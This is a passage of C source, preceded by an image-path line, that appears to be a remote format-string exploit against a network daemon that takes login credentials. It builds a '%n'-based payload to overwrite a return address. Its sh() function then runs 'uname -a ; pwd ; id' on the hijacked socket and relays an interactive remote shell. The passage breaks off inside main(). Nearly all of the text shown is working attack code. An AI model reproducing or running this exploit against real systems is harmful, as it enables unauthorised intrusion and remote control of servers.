         strcat(sendbuf, buf);

        for (i=0;i<eipoff/8;i++) strcat(sendbuf, "%%.f");
        for (i=0;i<(off-eipoff-8)/8;i++) strcat(sendbuf, "%%d%%d");

        if (((off-eipoff-8) % 8) != 0) strcat(sendbuf, "%%d%%d");

        strcat(sendbuf, "%%.");
        sprintf(buf, "%d", (int)ptr-size);
        strcat(sendbuf, buf);
        strcat(sendbuf, "d%%n");

        if (command(sendbuf) < 0)
            return -1;

        return 0;
    }

    int sh(sockfd)
    int sockfd;
    {
        char buf[BUFSIZ];
        int c;
        fd_set rf, drugi;
        char cmd[] = "uname -a ; pwd ; id\n";

        FD_ZERO(&rf);
        FD_SET(0, &rf);
        FD_SET(sockfd, &rf);
        write(sockfd, cmd, strlen(cmd));

        while (1)
        {
            bzero(buf, BUFSIZ);
            memcpy (&drugi, &rf, sizeof(rf));
            select(sockfd+1, &drugi, NULL, NULL, NULL);
            if (FD_ISSET(0, &drugi))
            {
                c = read(0, buf, BUFSIZ);
                send(sockfd, buf, c, 0x4);
            }

            if (FD_ISSET(sockfd, &drugi))
            {
                c = read(sockfd, buf, BUFSIZ);
                if (c<0) return 0;
                write(1,buf,c);
            }
        }
    }

    int main(argc, argv)
    int argc;
    char **argv;
    {
        extern int optind, opterr;
        extern char *optarg;
        int ch, type, port, eipoff, fd, retofs, retlocofs, align, i, retoff;
        long ret, retloc;
        char login[BUFSIZ], password[BUFSIZ];

